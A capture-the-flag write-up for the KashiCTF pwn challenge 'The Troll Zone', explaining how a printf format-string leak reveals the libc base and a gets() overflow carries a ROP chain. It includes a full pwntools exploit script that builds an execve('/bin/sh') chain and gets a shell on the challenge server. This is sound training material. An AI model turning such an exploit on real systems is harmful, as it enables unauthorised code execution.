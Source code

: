 ```yaml
---
title: The Troll Zone
date: 2025-02-24 +05:30
author: kliprmimo
categories: [pwn]
tags: [gdb, rop]
---
```



# The Troll Zone
## Description
category: pwn\
solves: 43\
point value: 452
## Overview
The file we got is x86_64 binary \
![](attachments/kashi_checksec.png)

it does have very little protections enabled:\
`Partial RELRO` -  we can overwrite got entries\
`No canary found` - if there is buffer overflow we can overwrite return pointer without worrying about canary check triggering\
`NX enabled` - there is protection against execution of machine code placed on the stack\
`No Pie (0x400000)` - binary is always loaded at the same address in memory\
We also are provided libc file
## Exploitation plan
### Vulnerabilities
code decompiled by ida:\
![](attachments/kashi_main.png)\
![](attachments/kashi_flag.png)\
there are two vulnerabilities in this code:
- `printf(s)` - using `printf` on buffer controlled by user is very dangerous, using `%p` `%x` (and many others) we can read values saved in registers `( _RSI, RDX, RCX, R8, R9_)` and on stack. We can also have arbitrary memory write using `%n` modifier.
- `gets(v4)` - gets function is dangerous function that should never be used. This function takes data to specified buffer with no length checking whatsoever which can lead to buffer overflow
### How can this be exploited?
What is usually required to *typical* ROP attack is some gadgets to set registers to correct values for [execve syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) on `/bin/sh` to get reverse shell. Sadly there are not enough gadgets in vuln binary. Luckily there is plenty of such gadgets in libc. \
But in order to use this technique we need to know where in memory is libc loaded.\
We can use vulnerable `printf` function to find address of some function in libc (lack of Pie does not work here). Using that we can find base address at which libc is loaded at. From there we can use ROPgadget program to generate python script that prepares correct payload for this ROP\
`ROPgadget --binary libc.so.6 --ropchain`
## Exploitation

### getting libc address
On we run patched binary in gdb and break on vulnerable `printf` (to patch binary you can use [pwninit](https://github.com/io12/pwninit) or just patchelf)\
using `%<number>$p` we dump values from registers and stack.\
for my exploit i used value at `%17$p` which happened to be `0x7ffff7e0924a`\
![](attachments/kashi_gdb_libc.png)\
using `vmmap` command we can find base address of libc (locally)\
thanks to that we can calculate offset that leaked address is at (from the base of libc)\
`0x2724a=0x7ffff7e0924a-0x7ffff7de2000`\
We can use that offset when we leak the address in remote exploit. We need to subtract this offset from leaked address and we get remote libc base address. now we just need to use this value in payload from ROPgadget

```python
#!/usr/bin/env python3

from pwn import context, process, remote, gdb, args, ELF
from struct import pack

context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]

addr = "kashictf.iitbhucybersec.in"
port = 1337
elf = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.binary = elf
libc = elf.libc

gdbscript = '''
    tbreak main
    '''.format(**locals())


def conn(argv=[], *a, **kw):
    if args.LOCAL:
        r = process([elf.path])
        if args.GDB:
            return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        r = remote(addr, port)

    return r


leaked_offset = 0x7ffff7e0924a-0x7ffff7de2000


def main():
    log.info('Starting')

    r = conn()
    r.recvuntil(b'What do you want?')
    r.sendline(b'%17$p')
    r.recvuntil(b"0x")
    ptr = r.recvuntil(b"\n")
    ptr = ptr[:-1].decode()
    ptr = int(ptr, 16)
	log.info(f'Leaked addres {hex(ptr)}')

    libc_base = ptr - leaked_offset
    log.info(f'Got libc base {hex(libc_base)}')
    
    ### Output of ROPgadget
    p = b'a' * 40
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x000000000003f197)  # pop rax ; ret
    p += b'/bin//sh'
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000277e5)  # pop rdi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x0000000000028f99)  # pop rsi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x0000000000026428)  # syscall
    r.sendline(p)

    r.interactive()


if __name__ == "__main__":
    main()

```
Combining quite lengthy outpout of `ROPgadget` with our calculated libc address we get this exploit, that gives us reverse shell! \
![](attachments/kashi_flag.png)\
\
flag: `KashiCTF{did_some_trolling_right_there_3hbM6wHf}`